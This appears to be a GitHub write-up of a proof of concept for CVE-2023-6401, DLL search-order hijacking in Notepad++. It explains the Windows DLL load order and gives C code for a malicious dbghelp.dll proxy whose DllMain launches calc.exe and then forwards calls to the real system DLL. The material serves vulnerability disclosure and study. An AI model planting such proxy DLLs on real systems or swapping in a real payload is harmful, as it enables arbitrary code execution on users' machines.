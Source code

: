 ### Vulnerability Details

| Item | Details |
|------|---------|
| **CVE Number** | CVE-2023-6401 |
| **Affected Versions** | NotePad++ ≤ 8.1 |
| **Vulnerability Type** | DLL Hijacking / Search Order Hijacking |
| **Impact** | Arbitrary Code Execution |
| **Prerequisites** | Write permission to application directory |

#### Mechanism

Windows loads DLLs in the following order:
1. **Application directory** (highest priority)
2. System32 directory
3. Windows directory
4. Current directory
5. PATH environment variable

NotePad++ loads `dbghelp.dll` on startup. By placing a malicious DLL with the same name in the application directory, code can be executed before the system DLL is loaded.

### Technical Implementation

#### Core Code

```c
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // Execute malicious code
        WinExec("calc.exe", SW_SHOW);
        MessageBoxA(NULL, "CVE-2023-6401 Crack", "Alert", MB_OK);

        // Load real DLL and forward API calls
        char systemPath[MAX_PATH];
        GetSystemDirectoryA(systemPath, MAX_PATH);
        strcat(systemPath, "\\dbghelp.dll");
        realDbghelp = LoadLibraryA(systemPath);
        
        if (realDbghelp)
            realImageNtHeader = (pImageNtHeader)GetProcAddress(realDbghelp, "ImageNtHeader");
        break;
    }
    return TRUE;
}
```
